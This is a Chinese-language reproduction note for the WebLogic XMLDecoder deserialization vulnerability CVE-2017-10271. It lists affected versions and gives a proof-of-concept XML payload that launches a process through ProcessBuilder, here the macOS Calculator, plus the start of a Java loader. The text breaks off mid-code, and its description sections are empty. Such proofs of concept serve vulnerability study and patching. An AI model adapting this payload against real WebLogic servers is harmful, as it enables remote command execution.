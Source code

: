 # （CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3223](https://www.zhihuifly.com/t/topic/3223)

# （CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

### 漏洞分析

### poc

xml 文件

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java> 
```

读取xml文件，进行反序列化执行命令代码：

```
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class xmlrce {

```
public static void main(String[] args) {
    // TODO Auto-generated method stub
    java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");
